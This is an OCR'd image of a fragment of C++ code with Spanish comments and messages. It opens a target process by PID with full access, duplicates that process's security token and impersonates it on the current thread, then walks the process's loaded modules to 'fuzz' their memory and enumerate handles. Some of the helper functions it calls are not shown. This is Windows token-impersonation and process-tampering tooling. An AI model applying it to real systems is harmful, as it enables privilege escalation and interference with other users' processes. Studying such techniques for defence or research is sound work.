 ```c++
}

void ExtractAndImpersonateToken(HANDLE hProcess) {
    HANDLE hToken;
    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        std::cout << "Token abierto: " << hToken << std::endl;

        HANDLE hDupToken;
        if (DuplicateToken(hToken, SecurityImpersonation, &hDupToken)) {
            std::cout << "Token duplicado: " << hDupToken << std::endl;

            // Impersonar el token para realizar operaciones bajo ese contexto de seguridad
            if (SetThreadToken(NULL, hDupToken)) {
                std::cout << "Se ha establecido el token para el hilo actual." << std::endl;
            } else {
                std::cerr << "No se pudo establecer el token, error: " << GetLastError() << std::endl;
            }

            CloseHandle(hDupToken);
        } else {
            std::cerr << "No se pudo duplicar el token, error: " << GetLastError() << std::endl;
        }

        CloseHandle(hToken);
    } else {
        std::cerr << "No se pudo abrir el token, error: " << GetLastError() << std::endl;
    }
}

int main() {
    DWORD pid = 1234; // Reemplazar con el PID del proceso objetivo

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        std::cerr << "No se pudo abrir el proceso, error: " << GetLastError() << std::endl;
        return -1;
    }

    // Ejemplo: Fuzzing de la memoria de una DLL
    MODULEENTRY32 modEntry;
    HANDLE hModuleSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid);
    if (hModuleSnap == INVALID_HANDLE_VALUE) {
        std::cerr << "No se pudo crear snapshot de módulos, error: " << GetLastError() << std::endl;
        return -1;
    }

    modEntry.dwSize = sizeof(MODULEENTRY32);
    if (Module32First(hModuleSnap, &modEntry)) {
        do {
            std::wcout << L"Fuzzing en módulo: " << modEntry.szModule << L" en base: " << modEntry.modBaseAddr << std::endl;
            FuzzDLLMemory(hProcess, modEntry.modBaseAddr);
        } while (Module32Next(hModuleSnap, &modEntry));
    }

    CloseHandle(hModuleSnap);

    // Enumerar y duplicar handles
    EnumerateHandles(pid);

    // Extraer y manipular tokens
```